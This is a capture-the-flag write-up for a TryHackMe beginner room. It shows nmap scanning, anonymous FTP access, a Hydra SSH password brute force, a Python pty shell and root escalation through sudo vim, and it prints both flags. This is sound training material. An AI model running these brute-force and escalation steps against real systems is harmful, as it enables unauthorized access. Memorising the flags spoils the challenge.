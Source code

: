 ###### Beginner level ctf
Room: https://tryhackme.com/room/easyctf  
##


> sudo nmap -sV -sS -T5 -A -vv [roomIP]

After the scan is completed, we have the following open ports:  
* On port 21, FTP with Anonymous Login Allowed.
* On port 80, HTTP running on Apache 2.4.18.
* On port 2222, SSH.

Let's take a look at the FTP, since it allows anonymous login.  

> ftp [roomip] 21  

We have a directory called **pub** which holds a file called **ForMitch.txt**.  

> get ForMitch.txt  
> cat ForMitch.txt   

```
Dammit man... you'te the worst dev i've seen. You set the same pass for the system user,
and the password is so weak... i cracked it in seconds. Gosh... what a mess!
```

Now we have a possible username for the SSH service, which is mitch.  
We'll use Hydra to try and bruteforce the password.  

> sudo hydra -l mitch -P /usr/share/wordlists/rockyou.txt [roomip] ssh -s 2222 

```
[2222][ssh] host: xx.xx.xx.xxx   login: mitch   password: secret
```

> ssh mitch@[roomip] -p 2222

We can use python to spawn a bash shell  
> python3 -c 'import pty;pty.spawn("/bin/bash")'  

Inside the mitch's home directory we have our first flag.  **[1]**
```
G00d j0b, keep up!
```

The **sudo -l** command reveals us that we have access to **vim** as root.  

According to [GTFObins](https://gtfobins.github.io/gtfobins/vim/), we can escalate our privileges to root by using different methods. 

> sudo vim -c ':!/bin/sh'

```
# whoami
root
```

The second and final flag is located inside the /root/root.txt file. **[2]**
```
W3ll d0n3. You made it!
```

##  

**Note:** I ran a directory bruteforce while I was waiting for nnamp scan and we can access http://machineIP/simple. Maybe another way in? :) 
